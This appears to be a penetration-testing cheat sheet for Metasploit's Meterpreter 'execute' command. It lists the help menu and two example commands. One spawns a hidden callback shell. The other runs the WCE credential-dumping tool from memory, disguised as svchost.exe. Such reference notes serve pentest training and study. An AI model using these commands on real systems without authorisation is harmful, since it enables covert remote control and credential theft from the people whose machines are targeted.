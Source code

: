 # 04 - Execute Process

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## 4.1 - Help Menu

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```

## 4.2 - Usage

* Spawn Callback Shell

`meterpreter > execute -Hicf shell.exe`

* Dummy Process

`meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"`

---
## References

* [Metasploit for Pentester Migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/)